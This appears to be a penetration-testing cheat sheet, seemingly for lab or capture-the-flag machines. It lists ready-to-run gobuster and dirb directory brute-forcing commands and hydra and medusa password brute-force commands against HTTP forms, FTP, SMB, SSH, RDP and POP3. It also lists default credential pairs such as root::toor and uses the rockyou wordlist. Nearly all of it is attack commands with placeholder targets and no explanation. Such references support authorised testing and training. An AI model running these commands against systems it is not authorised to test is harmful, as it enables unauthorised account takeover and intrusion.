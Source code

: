 https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force


### Directory Brute Forcing

**HTTP**

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list1} -o ${loc}/2-enum/web/gob_dir_big.md
```

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list2} -o ${loc}/2-enum/web/gob_dir_2.3_med.md
```


```bash
dirb ${ipurl}:${web1} -o ${loc}/2-enum/web/dirb_ip.md
```

```bash
dirb ${ipurl}:${web1} -X .txt,.sh,.php,.pl,.py,.xml,.bak -o ${loc}/2-enum/web/dirb_ip_ext.md

```

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list1} -x log,txt,php,xml,csv,dat,pdf,doc,docx,ppt,pptx,xlr,xls,xlsx,db,dbf,mdb,pdb,sql,apk,jar,exe,7z,rar,tar.gz,zip,c,cpp,cs,h,sh,vb,vbs,pl,lua,java,py,bak,tmp -o ${loc}/2-enum/web/gob_files.md
```

```bash
gobuster dir -u ${ipurl}:${web1} -w ${directory_list1} -x log,txt,pdf,xml,csv,bak,php,pl -o ${loc}/2-enum/web/gob_files_priority.md

```**HTTPS**

```bash
gobuster dir -k -u ${ipurl}:${web2} -w ${directory_list2} -o ${loc}/2-enum/web/gob_dir_https.md
```

```bash
gobuster dir -k -u ${ipurl}:${web2} -w ${directory_list2} -x log,txt,php,xml,csv,dat,pdf,doc,docx,ppt,pptx,xlr,xls,xlsx,db,dbf,mdb,pdb,sql,apk,jar,exe,7z,rar,tar.gz,zip,c,cpp,cs,h,sh,vb,vbs,pl,lua,java,py,bak,tmp -o ${loc}/2-enum/web/gob_files_https.md
```

```bash
gobuster dir -k -u ${ipurl}:${web2} -w ${directory_list2} -x log,txt,pdf,xml,csv,bak,php,pl -o ${loc}/2-enum/web/gob_files_priority_https.md
```

### HTTP Form Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/http/hydra_http.md {http_scheme}-get ${box_ip}/path/to/auth/area
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/http/medusa_http.md -h ${box_ip} -m DIR:/path/to/auth/area
```

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/http/hydra_http_host.md http-post-form ${box_ip} "/path/to/form:login_method:invalid-login-prompt"
```

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/http/hydra_http_host.md https-post-form ${box_ip} "/path/to/form:login_method:invalid-login-prompt"
```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/http/medusa_http_host.md -h ${box_ip} -m FORM:/path/to/login.php -m FORM-DATA:"post?username=&password=" -m DENY-SIGNAL:"invalid login message"

```

### FTP Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/ftp/hydra_ftp.md ftp://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/ftp/medusa_ftp.md -M ftp -h ${box_ip}

```### SMB Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/smb/hydra_smb.md smb://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/smb/medusa_smb.md -M smb -h ${box_ip}

```

### SSH Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/ssh/hydra_ssh.md ssh://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/ssh/medusa_ssh.md -M ssh -h ${box_ip}

```

### RDP Brute Forcing

```bash
hydra -L ${user_list} -P ${pass_list} -e nsr -o ${loc}/2-enum/rdp/hydra_rdp.md rdp://${box_ip}
```

```bash
medusa -U ${user_list} -P ${pass_list} -e ns -O ${loc}/2-enum/rdp/medusa_rdp.md -M rdp -h ${box_ip}

```


### POP3

admin::admin
root::root
root::toor

```bash

hydra -l admin -P /usr/share/wordlists/rockyou.txt -f ${box_ip} pop3


hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 995 -f ${box_ip} pop3


hydra -L ${user_list} -P ${pass_list} -f ${box_ip} pop3


hydra -L ${user_list} -P ${pass_list} -s 995 -f ${box_ip} pop3
```